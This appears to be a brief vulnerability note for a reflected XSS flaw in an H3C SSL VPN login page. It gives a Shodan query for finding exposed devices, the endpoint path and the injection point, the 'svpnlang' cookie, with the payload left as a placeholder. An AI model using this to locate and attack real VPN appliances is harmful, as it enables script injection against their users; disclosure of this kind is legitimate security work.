 # H3C_SSL_VPN_XSS(Reflected XSS)
# Payload: 
    Shodan: http.html_hash:510586239
    Access address：https://IP:PORT/wnm/login/login.json.
    Payload: Cookie: svpnlang=__XSS_PAYLOAD__

